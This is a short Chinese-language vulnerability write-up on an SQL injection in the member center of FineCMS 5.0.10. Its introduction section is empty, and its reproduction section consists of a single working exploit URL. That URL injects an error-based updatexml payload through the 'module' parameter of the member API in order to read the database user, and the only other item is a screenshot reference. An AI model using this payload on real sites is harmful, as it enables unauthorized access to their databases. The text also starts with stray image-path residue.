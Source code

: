 Finecms 5.0.10 会员中心sql注入漏洞
==================================

一、漏洞简介
------------

二、漏洞影响
------------

Finecms 5.0.10

三、复现过程
------------

    http://0-sec.org/index.php?s=member&c=api&m=checktitle&id=1&title=1&module=news,(select%20(updatexml(1,concat(1,(select%20user()),0x7e),1)))a

![](resource/Finecms5.0.10会员中心sql注入漏洞/media/rId24.png)
